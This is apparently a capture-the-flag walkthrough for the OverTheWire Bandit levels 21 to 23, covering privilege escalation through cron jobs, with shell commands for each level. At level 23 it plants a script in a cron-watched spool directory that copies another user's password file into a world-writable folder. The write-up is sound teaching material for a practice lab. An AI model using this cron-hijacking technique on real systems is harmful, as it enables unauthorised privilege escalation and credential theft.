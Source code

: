 ### [Bandit 21]
`ssh bandit21@bandit.labs.overthewire.org -p 2220` \ 
We are told that there is a cronjob running and we are told where to look for it. A cronjob is just a script running automatically at given intervals. In the given location we find where the script is, and looking into the script we can see where to look for the password file.

```bash
cd /etc/cron.d
ls
cat cronjob_bandit22 
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

### [Bandit 22]
`ssh bandit22@bandit.labs.overthewire.org -p 2220` \ 
Same as in the last challenge, we find a script run by a cronjob. The only difference is that we have to find out the name of the file where the flag is written.
We see that the target is the result of the whoami command, and in our case it should be bandit23. Then we run the line with the echo command with the proper target name, and that is the name of our file.

```bash
cd /etc/cron.d
ls
cat cronjob_bandit23 
cat /usr/bin/cronjob_bandit23.sh
whoami [it says bandit22, but we want the file for bandit23]
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

### [Bandit 23]
`ssh bandit23@bandit.labs.overthewire.org -p 2220` \ 
Yet again, a cronjob is running on the system. What it does is accessing a folder and running whatever script is there, with bandit24 permissions. Therefore, we create a script that reads the password file and prints it to a place that we can access. \
First of all we create a working folder in /tmp. In there, we create our script: it just cats the password file and writes the output to a file in our working folder. We have to make sure that the script is executable and that our folder can be accessed by everybody, so that bandit24 can write in it even though it is not the owner.To do this, we use the `chmod 777` command on both the file and the folder. What is left to do is to copy the script in the folder visited by the cronjob, and wait for a minute.

```bash
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/olaola
cd /tmp/olaola
nano b24.sh
    > #!/bin/sh
    > cat /etc/bandit_pass/bandit24 > /tmp/olaola/flag24
chmod 777 b24.sh
chmod 777 /tmp/olaola
cp b24.sh /var/spool/bandit24/b24.sh
cat flag24 
```
